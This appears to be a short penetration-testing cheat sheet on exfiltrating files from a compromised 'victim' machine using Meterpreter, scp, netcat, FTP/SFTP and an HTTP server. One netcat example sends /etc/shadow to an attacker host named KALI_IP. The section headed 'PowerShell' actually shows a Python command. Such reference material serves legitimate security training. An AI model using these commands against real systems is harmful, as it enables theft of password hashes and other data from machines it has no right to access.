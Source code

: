 There are several methods depending on the access you've gained on the victim's machine:

#### Meterpreter (Metasploit)
If you have a **Meterpreter session** on the victim machine:
```
download /path/to/victim/file /path/to/local/destination
```

#### `scp` (Secure Copy)
If you have ***SSH access*** to the victim machine:

**Attacker's Machine**
```
scp username@victim_ip:/path/to/file /path/kali/destination
```

#### `nc` (Netcat)
If neither **SSH** or **Meterpreter** is ***available***, you can use **Netcat** to transfer files. You need to have `nc` ***installed and running on both machine***:

**Attacker's Machine**
```
nc -nvlp 4444 > shadow
```

**Victim's Machine**
```
nc KALI_IP 4444 < /etc/shadow
```

#### FTP or SFTP
If the victim machine has FTP or SFTP access, you can use these protocols to transfer files:

**FTP (Less Secure)**
```
1 Start an FTP server on Kali (using `vsftpd` or `pure-ftpd`).
2 Use the `ftp` command on the victim machine to connect and upload the file.
```

**SFTP**
If you have ***SSH access***, use `sftp` to transfer files:
```
sftp username@victim_ip:/path/to/file /path/to/local/destination
```

#### PowerShell
**On Windows (PowerShell)**
```powershell
cd C:\path\to\file
python -m http.server
```

**On Kali**
```bash
wget http://<Win_IP>:8000/file.txt
```
